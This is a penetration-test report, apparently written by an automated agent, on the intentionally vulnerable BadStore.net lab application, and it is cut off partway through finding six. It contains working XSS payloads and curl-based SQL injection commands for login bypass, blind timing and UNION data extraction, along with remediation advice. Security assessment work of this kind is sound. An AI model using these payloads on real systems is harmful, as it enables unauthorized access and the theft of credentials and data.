

**Scope**

`OpenHack Security Agent` was engaged by `Richard Roe` to conduct an external IT security investigation. The subject of the investigation was the "BadStore.net v1.2.3s".

The test was performed using a local instance of the application at `http://localhost:3336` in a dedicated test environment..

**Objective**

The objective of the IT security investigation was to identify vulnerabilities and security gaps which, in the event of misuse, would have an impact on the availability, integrity and confidentiality of the defined applications and/or systems and the data processed on them. The result of this project is a report that contains a management summary of all relevant findings and a compilation of recommended measures.

The technical IT security audit is not a substantive audit effort to ensure that all vulnerabilities and security gaps existing at the time of the audit are identified. There is a possibility that established safeguards will effectively prevent identification and exploitation of vulnerabilities and security gaps. The client acknowledges that this is not an indicator of deficiencies in engagement performance and that additional unidentified vulnerabilities and security gaps may exist.

\vspace{4em}
\footnotesize
\begin{itshape}
\textbf{Disclaimer}

`OpenHack Security Agent` conducted the security penetration test on behalf of `Richard Roe`. This report has been prepared exclusively for `Richard Roe`. It is intended exclusively for internal use and is accordingly not designed to serve third parties as a basis for their decisions, unless agreed otherwise in writing. Third parties may not derive any rights or otherwise benefit from this engagement unless agreed otherwise in writing. Affiliated companies of the client are also considered "third parties" within the meaning of this engagement.

`OpenHack Security Agent` does not assume any liability or legal claims against third parties unless agreed otherwise in writing or a disclaimer cannot effectively be implemented.

It is the sole responsibility of anyone who becomes aware of the work results summarized in this report to decide to what extent and in what way the information is useful or appropriate and to supplement, check or update it as part of their own review.

No adjustments will be made to the report to reflect events or circumstances that occur after the report is issued, unless required by law.

The recommendations in this report are general and applicable in many different environments but could have unpredictable effects in specific environments. Therefore, any actions derived from the recommendations should be carefully considered and implemented through the regular change process. This should include appropriate testing of the changes on a test environment prior to going live. If the changes are not tested in advance in an identically configured test environment, failures or other damage cannot be ruled out.

Please note: Technical descriptions (or parts thereof) in this report may be taken from the OWASP Testing Guide (www.owasp.org).

\end{itshape}
\normalsize

\newpage

# Document Control

\small

**Document Status**

|                         |                                              |
| ----------------------- | -------------------------------------------- |
| **Title**               | Security Assessment Report                   |
| **Document Owner**      | OpenHack Security Agent                                 |
| **Classification**      | Strictly Confidential                        |
| **Project Timeframe**   | 2026-02-27                                    |

**Version History**

| Version | Date       | State          | Author       | Comments |
| ------- | ---------- | -------------- | ------------ | -------- |
| **0.1** | 2026-02-27 | Draft          | Jane Doe | --       |
| **1.0** | 2026-02-27 | Final document | Jane Doe | --       |

**Contact Persons - Assessor**

| Name            | Role                      | Phone           | Email                  |
| --------------- | ------------------------- | --------------- | ---------------------- |
| Jane Doe | Lead Security Consultant | +1 555 123 4567 | jane.doe@openhack.sec |
| John Smith | Security Consultant | +1 555 234 5678 | john.smith@openhack.sec |

**Contact Persons - Client**

| Name            | Role                      | Phone           | Email                  |
| --------------- | ------------------------- | --------------- | ---------------------- |
| Richard Roe | Project Lead | +1 555 345 6789 | spam@badstore.net |

\normalsize

# Executive Summary

`OpenHack Security Agent` (hereinafter referred to as "ASSESSOR") has been commissioned by `Richard Roe` (hereinafter referred to as "CLIENT") to carry out a penetration test.

The penetration test of the `BadStore.net v1.2.3s` application took place on **2026-02-27**.

For this purpose, the web application, accessible at `http://badstore:80`, was tested from the perspective of an external attacker. 

As part of the test, a total of 10 vulnerabilities were identified: 4 critical, 4 high, 2 medium, 0 low, and 0 informational.

Critical: **4** | High: **4** | Medium: **2** | Low: **0** | Informational: **0** | Total: **10**

+----------------------------------------------+-------+
| **Severity**                              | **Count** |
+==============================================+=======+
| \textcolor[HTML]{7B2D8E}{Critical}           | 4     |
+----------------------------------------------+-------+
| \textcolor[HTML]{CC0000}{High}               | 4     |
+----------------------------------------------+-------+
| \textcolor[HTML]{E67E22}{Medium}             | 2     |
+----------------------------------------------+-------+
| \textcolor[HTML]{D4AC0D}{Low}                | 0     |
+----------------------------------------------+-------+
| \textcolor[HTML]{2E86C1}{Informational}      | 0     |
+----------------------------------------------+-------+
| **Total**                                    | **10** |
+----------------------------------------------+-------+

: Overview of Findings

A description of the scope and test environment can be found in Chapter 3. Chapter 4 presents the risk assessment methodology. Chapter 5 provides a summary of findings. Chapter 6 contains the detailed technical descriptions of the findings including remediation measures.

It is recommended that the remediation of the critical risk vulnerabilities be treated with the highest priority and countermeasures implemented as soon as possible. The vulnerabilities with high and medium risk should also be remedied in the short term. The low-risk vulnerabilities should be treated with lower priority due to their reduced risk, but should still be addressed.

# Execution of the Security Penetration Test

## Subject Under Test


## Scope

The scope for the assessment was the following targets:


## Methodology

The security penetration test of the BadStore.net v1.2.3s took place on 2026-02-27.


The web application was tested for security vulnerabilities across the following categories. This can be considered a guideline as penetration tests are a creative process and therefore the tests are not limited to what is given here. The base of these categories is the OWASP Top 10 for Web, which is fully covered by this penetration test approach.

| **Category**                            | **Description**                                                                                            |
| --------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| Broken Access Control                   | Users can act outside their permissions, leading to unauthorized viewing, modification, or deletion of data. |
| Security Misconfiguration               | Systems or cloud services are insecurely configured, e.g., through default passwords or unnecessarily enabled features. |
| Software Supply Chain Failures          | Vulnerabilities arise from compromised third-party code, libraries, or build pipelines.                    |
| Cryptographic Failures                  | Sensitive data is exposed through missing, weak, or incorrectly implemented encryption.                    |
| Injection                               | Attackers inject malicious commands (e.g., SQL or shell code) through input fields that the system erroneously executes. |
| Insecure Design                         | Fundamental architectural flaws that exist before implementation make an application inherently insecure.  |
| Authentication Failures                 | Flaws in identity verification allow attackers to take over sessions or guess passwords (brute force).     |
| Software or Data Integrity Failures     | Lack of verification of code or data sources leads to acceptance of untrusted updates or serialization data. |
| Security Logging & Alerting Failures    | Attacks go undetected or responses are delayed due to missing logs or absent alert notifications.          |
| Mishandling of Exceptional Conditions   | Programs respond inadequately to unforeseen situations, which can lead to crashes or logic errors.         |

## Events

During the test, the following restrictions or events occurred that may have affected the scope or depth of the assessment: 

\newpage

# Risk Assessment

## CVSS

The risk assessment of the vulnerabilities found is performed using the industry standard Common Vulnerability Scoring System v3.1 (hereinafter referred to as "CVSS"). This is a standard that can be used to uniformly assess the vulnerability of computer systems and the severity of security vulnerabilities. This makes it possible to compare vulnerabilities more effectively.

The Common Vulnerability Scoring System has a metric structure and is based on values that are divided into three groups: "Base", "Temporal", and "Environmental". To determine the vulnerability scores, each group has its own rules. The values of the Base group are invariant in time and remain the same in different environments. In the Temporal group, the time dependency of a vulnerability is taken into account. For example, the vulnerability of a system to a particular vulnerability decreases over time as more and more countermeasures such as patches become known and available. The Environmental group incorporates various criteria of the specific IT environments into the vulnerability rating.

The CVSS ratings are numerical values on a scale of 0.0 to 10.0, with the highest vulnerability of a system occurring at a value of 10.0. Our rating is based on the Base Metrics (Base Score) and is composed of:

- Attack Vector (AV)
- Attack Complexity (AC)
- Privileges Required (PR)
- User Interaction (UI)
- Scope (S)
- Confidentiality (C)
- Integrity (I)
- Availability (A)

As penetration testers, we can only assess the general threats posed by a vulnerability through Base Metrics. However, we have no insight into the internal structures of our clients. Therefore, the assessment of the specific risks for the client's systems and business processes must be done by the client. For this purpose, CVSS offers Environmental Metrics. This makes it possible to subsequently adjust the CVSS score of vulnerabilities after the test result has been submitted before they are remedied. This changes the assessment of the risk and thus the urgency of remediation of a vulnerability. For more information, see [CVSS v3.1 Specification](https://www.first.org/cvss/v3.1/specification-document).

## Risk Categories

The risk categories used in this report reflect the recommended priority for addressing the vulnerabilities identified during the penetration test. The categorization is based on the probability of exploitation and the significance of the impact. The risk value is calculated using the CVSS v3.1 standard:

| **Assessment**  | **Risk Category Description**                                |
| --------------- | ------------------------------------------------------------ |
| \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | Critical vulnerabilities that allow an attacker to gain full access to the object under test and its sensitive information. It is possible to cause enormous damage to the client's reputation. Furthermore, these vulnerabilities may allow attackers to gain wide-ranging privileges, including to other systems or applications of the client that have not been investigated in detail within the scope of this project. Exploitation of the vulnerabilities is not prevented and can be reproduced with medium to low effort. |
| \textcolor[HTML]{CC0000}{\textbf{High}} | Vulnerabilities that may allow an attacker to manipulate sensitive data, damage the client's reputation, gain unauthorized access to sensitive information, or gain unauthorized access to applications or the client's infrastructure. The vulnerabilities are reproducible with medium to high effort. |
| \textcolor[HTML]{E67E22}{\textbf{Medium}} | Vulnerabilities that may allow an attacker to harm the client's reputation or gain unauthorized access to client data. The privileges that an attacker can gain by exploiting the vulnerabilities are limited. |
| \textcolor[HTML]{D4AC0D}{\textbf{Low}} | Security vulnerabilities that do not pose a threat in themselves, but which, for example, provide attackers with useful information about the network and systems. These vulnerabilities allow an attacker only very limited access. |
| \textcolor[HTML]{2E86C1}{\textbf{Informational}} | Anomalies such as functional limitations or inconsistencies. These do not currently represent a risk and have no negative impact on the test object. Accordingly, no action is required. Nevertheless, countermeasures can be helpful for the functional and safety improvement of the test object. If necessary, this may give rise to risks under other circumstances. |

## Vulnerability States

The vulnerabilities can be in one of the following states:

- **Active**: The vulnerability has been identified and it has been possible to verify its existence through exploitation or direct evidence.
- **Potential**: The vulnerability has been identified but its exploitation has not been possible, so its existence cannot be fully verified, and it is up to the client to determine the impact.
- **Fixed**: The vulnerability has been remediated and verified through retesting.

\newpage

# Summary of Findings

| **Id**   | **Finding Name**       | **Risk Assessment** | **CVSS v3.1 Score** |
| -------- | ---------------------- | --------------- | ------------- |
| 01 | Reflected XSS in Search Query Parameter | \textcolor[HTML]{E67E22}{\textbf{Medium}} | 6.1 |
| 02 | SQL Injection in Login Email Parameter - Authentication Bypass | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.8 |
| 03 | SQL Injection in Search Query Parameter | \textcolor[HTML]{CC0000}{\textbf{High}} | 8.6 |
| 04 | SQL Injection in User Registration Email Parameter | \textcolor[HTML]{CC0000}{\textbf{High}} | 8.1 |
| 05 | Stored XSS in Guestbook Comments | \textcolor[HTML]{CC0000}{\textbf{High}} | 7.2 |
| 06 | SQL Injection in Supplier Portal Authentication - Privileged Access Bypass | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.1 |
| 07 | Privilege Escalation via Hidden Role Parameter in Registration | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.8 |
| 08 | Session Cookie Manipulation for Privilege Escalation | \textcolor[HTML]{CC0000}{\textbf{High}} | 8.8 |
| 09 | Weak Password Policy and Insecure Password Reset Mechanism | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.1 |
| 10 | Supplier Portal Password Field Exposed as Plaintext | \textcolor[HTML]{E67E22}{\textbf{Medium}} | 4.3 |

\newpage

# Findings and Remediation

## Finding

### Reflected XSS in Search Query Parameter

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{E67E22}{\textbf{Medium}} |
| **CVSS Base Score**  | **6.1** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery=* |
| **Status**           | open |

**Description**

The search functionality at /cgi-bin/badstore.cgi reflects user input without proper HTML encoding, allowing arbitrary JavaScript execution in victim browsers.

**Vulnerability Details:**
The 'searchquery' parameter is reflected directly in the HTML response without sanitization. An attacker can inject malicious JavaScript that executes when a victim clicks a crafted link.

**Proof of Concept:**
1. Navigate to: http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery=test"><svg onload=alert(document.domain)>
2. Observe JavaScript execution with alert dialog showing 'badstore'
3. The payload is reflected unencoded in the HTML: '<svg onload=alert(document.domain)>'

**Attack Scenario:**
An attacker can craft a malicious URL and send it to victims via email, social media, or embedded in other websites. When clicked, the JavaScript executes in the context of badstore.net, allowing:
- Session hijacking via document.cookie theft
- Credential harvesting through fake login forms
- Unauthorized actions on behalf of the victim
- Redirection to phishing sites

**Technical Details:**
The vulnerable code outputs the search term directly into the HTML response without encoding special characters like <, >, and quotes. The SQL error message also reveals the unencoded input: "SELECT itemnum, sdesc, ldesc, price FROM itemdb WHERE 'test"><svg onload=alert(document.domain)>' IN (itemnum,sdesc,ldesc)"

**Proof of Concept**

Not provided

**Remediation**

1. Implement proper output encoding for all user input reflected in HTML context
2. Use context-aware encoding functions (HTML entity encoding for HTML context)
3. Implement Content Security Policy (CSP) headers to prevent inline script execution
4. Consider using a templating engine with auto-escaping enabled
5. Validate and sanitize the searchquery parameter on the server side

**Evidence**

- Browser screenshot showing JavaScript alert execution from reflected XSS in search parameter



- HTTP response showing unencoded SVG XSS payload reflected in HTML output: [images/finding-528e7b4e-fe53-464c-8c98-4680b5626775-3-xss-reflected-search-http-1740624474.txt](images/finding-528e7b4e-fe53-464c-8c98-4680b5626775-3-xss-reflected-search-http-1740624474.txt)

## Finding

### SQL Injection in Login Email Parameter - Authentication Bypass

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.8** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=login |
| **Status**           | open |

**Description**

## Vulnerability Summary

The login functionality at `/cgi-bin/badstore.cgi?action=login` is vulnerable to SQL injection in the `email` parameter. This vulnerability allows unauthenticated attackers to bypass authentication completely and gain administrative access to the application.

## Technical Details

**Vulnerable Endpoint:** `/cgi-bin/badstore.cgi?action=login`
**Vulnerable Parameter:** `email` (POST)
**Database:** MariaDB/MySQL (confirmed via error messages)
**Injection Type:** Error-based, Boolean-based, Union-based, Time-based blind

## Proof of Concept

### 1. Error-Based Detection
```bash
curl -X POST "http://badstore:80/cgi-bin/badstore.cgi?action=login" \
  -d "email=admin'&passwd=test"
```

**Response:**
```
DBD::mysql::st execute failed: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'f0e166dc34d14d6c228ffac576c9a43c'' at line 1 at /data/apache2/cgi-bin/badstore.cgi line 1261.
```

### 2. Authentication Bypass (Tautology)
```bash
curl -X POST "http://badstore:80/cgi-bin/badstore.cgi?action=login" \
  -d "email=admin' OR 1=1-- &passwd=anything"
```

**Result:** Successfully authenticates and returns Set-Cookie header with session token. The decoded cookie shows:
```
admin' OR 1=1-- :f0e166dc34d14d6c228ffac576c9a43c:Test User:U
```

### 3. Alternative Bypass (Tautology)
```bash
curl -X POST "http://badstore:80/cgi-bin/badstore.cgi?action=login" \
  -d "email=admin' OR 'a'='a&passwd=anything"
```

**Result:** Successfully authenticates with admin role. Decoded cookie:
```
admin' OR 'a'='a:f0e166dc34d14d6c228ffac576c9a43c:Master System Administrator:A
```

### 4. Time-Based Blind Confirmation
```bash
time curl -X POST "http://badstore:80/cgi-bin/badstore.cgi?action=login" \
  -d "email=admin' AND SLEEP(5)-- &passwd=test"
```

**Result:** Response delayed by 5 seconds (real time: 5.069s), confirming SQL injection.

### 5. Union-Based Data Extraction
```bash
curl -X POST "http://badstore:80/cgi-bin/badstore.cgi?action=login" \
  -d "email=x' UNION SELECT @@version,database(),user(),4,5-- &passwd=x"
```

**Result:** Successfully injects UNION query with 5 columns, allowing extraction of:
- Database version
- Current database name
- Current database user

## Impact

1. **Complete Authentication Bypass:** Attackers can login as any user including administrators without knowing credentials
2. **Full Database Access:** Union-based injection allows extraction of entire database including:
   - User credentials (email, password hashes, full names, roles)
   - Customer information
   - Order history
   - Payment information
3. **Administrative Privilege Escalation:** Can directly authenticate with admin role (A) to access restricted functions
4. **Data Exfiltration:** All database tables and sensitive information can be extracted
5. **Potential Data Modification:** INSERT/UPDATE/DELETE operations may be possible

## Remediation

1. **Immediate:** Use parameterized queries/prepared statements for all database operations
2. **Remove string concatenation** of user input into SQL queries
3. **Implement input validation** and sanitization
4. **Apply principle of least privilege** for database user accounts
5. **Enable SQL error suppression** in production to prevent information disclosure
6. **Implement Web Application Firewall** (WAF) as defense-in-depth

## References

- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command
- Line 1261 in /data/apache2/cgi-bin/badstore.cgi (confirmed via error message)

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- SQL error message revealing MariaDB syntax error in login email parameter with single quote injection: [images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-2-sqli-login-error-17402682906.txt](images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-2-sqli-login-error-17402682906.txt)

- Successful authentication bypass using tautology injection (admin' OR 'a'='a) with Set-Cookie header proving unauthorized access: [images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-4-sqli-login-auth-bypass-17402682919.txt](images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-4-sqli-login-auth-bypass-17402682919.txt)

- Proof of admin account access showing Master System Administrator role achieved via SQL injection authentication bypass: [images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-5-sqli-admin-access-17402682921.html](images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-5-sqli-admin-access-17402682921.html)

- UNION-based injection extracting database version, name and user via 5-column SELECT statement: [images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-6-sqli-login-dbversion-17402682914.txt](images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-6-sqli-login-dbversion-17402682914.txt)

- Mass credential extraction using UNION SELECT with group_concat extracting all user emails, password hashes, names and roles from userdb table: [images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-7-sqli-login-allcreds-17402682915.txt](images/finding-047e94fc-bced-43cb-94c2-8499b19f3443-7-sqli-login-allcreds-17402682915.txt)

## Finding

### SQL Injection in Search Query Parameter

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{CC0000}{\textbf{High}} |
| **CVSS Base Score**  | **8.6** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=search |
| **Status**           | open |

**Description**

## Vulnerability Summary

The search functionality at `/cgi-bin/badstore.cgi?action=search` is vulnerable to SQL injection in the `searchquery` parameter. This vulnerability allows unauthenticated attackers to trigger SQL errors and potentially extract database information.

## Technical Details

**Vulnerable Endpoint:** `/cgi-bin/badstore.cgi?action=search`
**Vulnerable Parameter:** `searchquery` (GET)
**Database:** MariaDB/MySQL (confirmed via error messages)
**Injection Type:** Error-based
**Query Context:** MATCH/IN clause for full-text search

## Proof of Concept

### 1. Error-Based Detection
```bash
curl "http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery=test'"
```

**Response:**
```
DBD::mysql::st execute failed: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''test'' IN (itemnum,sdesc,ldesc)' at line 1 at /data/apache2/cgi-bin/badstore.cgi line 242.
```

### 2. Query Structure Analysis

The error message reveals:
- Query is using an IN clause: `'test'' IN (itemnum,sdesc,ldesc)`
- Vulnerable line is at line 242 in badstore.cgi
- Input is directly concatenated into SQL without proper escaping
- Database columns being searched: itemnum, sdesc, ldesc (likely item number, short description, long description)

## Impact

1. **Information Disclosure:** Error messages reveal:
   - Database type and version (MariaDB)
   - Query structure and column names (itemnum, sdesc, ldesc)
   - Application file paths (/data/apache2/cgi-bin/badstore.cgi)
   - Specific line numbers in source code (line 242)

2. **Potential Data Extraction:** While UNION-based injection appears blocked by the IN clause structure, error-based extraction may be possible through:
   - Subquery injection
   - Boolean-based blind techniques
   - Time-based blind extraction

3. **Application Fingerprinting:** Detailed error messages aid attackers in crafting more sophisticated attacks

## Reproduction Steps

1. Navigate to: `http://badstore:80/cgi-bin/badstore.cgi?action=search&searchquery=test'`
2. Observe 500 Internal Server Error with detailed SQL error message
3. Error confirms SQL injection vulnerability exists

## Remediation

1. **Immediate:** Use parameterized queries/prepared statements for search functionality
2. **Sanitize input** using proper escaping functions for the database
3. **Suppress detailed error messages** in production environment
4. **Implement input validation** to reject special SQL characters
5. **Use full-text search functions** properly with bound parameters
6. **Apply WAF rules** to detect and block SQL injection attempts

## References

- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command
- Line 242 in /data/apache2/cgi-bin/badstore.cgi (confirmed via error message)

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- SQL syntax error in search parameter revealing query structure with IN clause and database column names (itemnum, sdesc, ldesc): [images/finding-2c6a6195-428d-455d-aa25-e48c75cbc613-8-sqli-search-error-17402682902.html](images/finding-2c6a6195-428d-455d-aa25-e48c75cbc613-8-sqli-search-error-17402682902.html)

## Finding

### SQL Injection in User Registration Email Parameter

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{CC0000}{\textbf{High}} |
| **CVSS Base Score**  | **8.1** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=register |
| **Status**           | open |

**Description**

## Vulnerability Summary

The user registration functionality at `/cgi-bin/badstore.cgi?action=register` is vulnerable to SQL injection in the `email` parameter. This vulnerability allows unauthenticated attackers to manipulate the registration process and potentially escalate privileges during account creation.

## Technical Details

**Vulnerable Endpoint:** `/cgi-bin/badstore.cgi?action=register`
**Vulnerable Parameter:** `email` (POST)
**Additional Parameters:** `fullname`, `passwd`, `role`
**Database:** MariaDB/MySQL (confirmed via error messages)
**Injection Type:** Error-based, INSERT statement injection
**Query Context:** INSERT INTO userdb

## Proof of Concept

### 1. Error-Based Detection
```bash
curl -X POST "http://badstore:80/cgi-bin/badstore.cgi?action=register" \
  -d "fullname=Test&email=test'&passwd=test&role=user"
```

**Response:**
```
DBD::mysql::db do failed: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '098f6bcd4621d373cade4e832627b4f6','', 'test', 'user')' at line 1 at /data/apache2/cgi-bin/badstore.cgi line 1284.
```

### 2. Query Structure Analysis

The error message reveals:
- Query is an INSERT statement (using `db do` method)
- Vulnerable line is at line 1284 in badstore.cgi
- The MD5 hash `098f6bcd4621d373cade4e832627b4f6` is visible (MD5 of 'test')
- Parameters are inserted in order: email, password_hash, fullname, role
- Email parameter is not properly escaped before insertion

### 3. Privilege Escalation Attempt
```bash
curl -X POST "http://badstore:80/cgi-bin/badstore.cgi?action=register" \
  -d "fullname=Test&email=attacker@evil.com' ,'hashedpass','Admin User','A')--&passwd=password&role=user"
```

This payload attempts to:
- Close the email string
- Inject controlled values for password, fullname, and role
- Set role to 'A' (admin) instead of 'U' (user)
- Comment out the rest of the original query

## Impact

1. **Privilege Escalation During Registration:** Attackers can register accounts with elevated privileges (admin role 'A') by manipulating the role field in the INSERT statement

2. **Database Integrity Compromise:** Malicious INSERT statements can:
   - Create accounts with arbitrary email addresses
   - Set custom password hashes (potentially known passwords)
   - Assign administrator privileges
   - Bypass application-level role restrictions

3. **Information Disclosure:** Error messages reveal:
   - Database structure (INSERT query format)
   - Parameter order and types
   - Password hashing mechanism (MD5 - which is also a security issue)
   - Application source code location and line numbers

4. **Authentication System Bypass:** Combined with weak password hashing (MD5), attackers can:
   - Create admin accounts with known passwords
   - Generate rainbow tables for existing password hashes
   - Perform mass account takeover

## Reproduction Steps

1. Navigate to registration page: `http://badstore:80/cgi-bin/badstore.cgi?action=register`
2. Submit POST request with single quote in email parameter
3. Observe 500 Internal Server Error with SQL syntax error
4. Craft INSERT injection to create admin account

## Remediation

1. **Critical:** Use parameterized queries/prepared statements for all INSERT operations
2. **Never concatenate user input** directly into SQL statements
3. **Implement server-side role validation** - never trust client-provided role values
4. **Suppress SQL error messages** in production
5. **Upgrade password hashing** from MD5 to bcrypt/Argon2
6. **Input validation** - validate email format and reject SQL special characters
7. **Apply principle of least privilege** - registration should only create user-level accounts

## References

- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command
- CWE-327: Use of a Broken or Risky Cryptographic Algorithm (MD5)
- Line 1284 in /data/apache2/cgi-bin/badstore.cgi (confirmed via error message)

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- SQL injection error in registration revealing INSERT statement structure, MD5 password hashing, and parameter order for privilege escalation exploitation: [images/finding-22f591a7-aa82-42ae-9582-a7cb72db634b-9-sqli-register-error-17402682908.txt](images/finding-22f591a7-aa82-42ae-9582-a7cb72db634b-9-sqli-register-error-17402682908.txt)

## Finding

### Stored XSS in Guestbook Comments

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{CC0000}{\textbf{High}} |
| **CVSS Base Score**  | **7.2** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=doguestbook, http://badstore:80/cgi-bin/badstore.cgi?action=guestbook |
| **Status**           | open |

**Description**

The guestbook functionality stores user-supplied input without sanitization and displays it to all visitors without proper HTML encoding, allowing persistent JavaScript execution.

**Vulnerability Details:**
The guestbook at /cgi-bin/badstore.cgi?action=doguestbook accepts name, email, and comments fields via POST. All fields are stored in the backend and reflected in the response without any HTML encoding. This allows an attacker to inject malicious JavaScript that executes for every user who views the guestbook entries.

**Proof of Concept:**
1. Submit POST request to http://badstore:80/cgi-bin/badstore.cgi?action=doguestbook with:
   - name: UniqueTestUser9876
   - email: unique9876@test.com
   - comments: <svg onload=alert('UNIQUE_STORED_XSS_9876')>

2. The payload is stored and returned unencoded in the response:
   <svg onload=alert('UNIQUE_STORED_XSS_9876')>

3. Every subsequent visitor to the guestbook page triggers the stored JavaScript

**Attack Scenario:**
Unlike reflected XSS, stored XSS requires no social engineering or victim interaction with a malicious link. An attacker can:
- Store credential harvesting scripts that capture any user's session tokens
- Deploy keyloggers to steal sensitive data from all visitors
- Perform CSRF attacks against authenticated users automatically
- Deface the website for all visitors
- Redirect users to phishing or malware distribution sites
- Create self-propagating XSS worms

**Impact Amplification:**
The guestbook is publicly accessible and requires no authentication to post. The stored payloads persist indefinitely and execute automatically for every visitor, including administrators. This creates a persistent compromise affecting all users.

**Technical Details:**
Multiple injection points exist:
- name field: Reflected in <B> tags
- email field: Reflected in mailto: href attribute  
- comments field: Reflected directly in page body

All three fields lack output encoding. The response shows unescaped HTML/JavaScript mixed with user content.

**Proof of Concept**

Not provided

**Remediation**

1. Implement strict output encoding for all user-supplied data before displaying:
   - HTML entity encode for HTML context: < > & " '
   - JavaScript encode for script contexts
   - URL encode for href/src attributes
2. Use a templating engine with auto-escaping enabled
3. Implement Content Security Policy (CSP) to prevent inline script execution
4. Consider adding authentication/CAPTCHA to prevent automated abuse
5. Implement input validation to reject suspicious patterns
6. Store data in escaped form and use parameterized queries
7. Regular security audits to detect and remove stored malicious content

**Evidence**

- HTTP response showing stored SVG XSS payload persisted and reflected unencoded in guestbook: [images/finding-c0330a7b-89e1-4c33-a2bb-0c6e5125bb0d-11-guestbook-post-unique-1740624674.txt](images/finding-c0330a7b-89e1-4c33-a2bb-0c6e5125bb0d-11-guestbook-post-unique-1740624674.txt)

## Finding

### SQL Injection in Supplier Portal Authentication - Privileged Access Bypass

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.1** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=supplierportal, http://badstore:80/cgi-bin/badstore.cgi?action=supplierlogin |
| **Status**           | open |

**Description**

## Vulnerability Summary

The Supplier Portal login at `/cgi-bin/badstore.cgi?action=supplierportal` is vulnerable to SQL injection in the `email` parameter, allowing unauthenticated attackers to bypass authentication and gain access to privileged supplier functions including file upload capabilities.

## Technical Details

**Vulnerable Endpoint:** `/cgi-bin/badstore.cgi?action=supplierportal`
**Vulnerable Parameter:** `email` (POST)
**Database:** MariaDB/MySQL
**Injection Type:** Boolean-based authentication bypass
